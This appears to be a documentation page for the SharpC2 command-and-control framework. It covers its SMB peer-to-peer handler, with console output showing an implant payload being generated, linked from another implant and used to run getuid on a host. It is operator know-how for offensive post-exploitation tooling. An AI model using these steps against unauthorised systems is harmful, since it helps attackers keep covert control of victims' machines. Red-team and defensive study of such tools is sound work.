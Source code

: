 # Peer-to-Peer

SharpC2 has a built-in SMB handler for peer-to-peer C2 between drones.  The handler does not run on the team server, so the `start` command doesn't actually do anything and the handler doesn't have to be running.  The handler simply acts as a template for payload generation.

```text
[handlers] > list

Name          Running
----          -------
default-http  True
default-smb   False
```

```
[drones] > payload default-smb Exe c:\payloads\smb-drone.exe
[+] 204800 bytes saved.
```

Once an SMB payload has been executed, use the `link` command from another drone.

```text
[ba60b4aac6] > link localhost
[+] Tasked Drone to run link.
[+] Drone checked in.  Sent 192 bytes.
[+] Drone task 758e24e2d9 has completed.
[+] Drone 87fe8b8650 checked in from Daniel@Ghost-Canyon.
```

```text
[drones] > list

Guid        Parent      Address        Hostname      Username  Process     Pid    Integrity  Arch  LastSeen
----        ------      -------        --------      --------  -------     ---    ---------  ----  --------
ba60b4aac6  -           192.168.1.229  Ghost-Canyon  Daniel    http-drone  21964  Medium     x64   24/11/2021 20:23:56
87fe8b8650  ba60b4aac6  192.168.1.229  Ghost-Canyon  Daniel    smb-drone   2988   Medium     x64   24/11/2021 20:23:36
```

```text
[drones] > interact 87fe8b8650
[87fe8b8650] > getuid
[+] Tasked Drone to run getuid.
[+] Drone task 3c4eb62f0c is running.

GHOST-CANYON\Daniel

[+] Drone task 3c4eb62f0c has completed.
```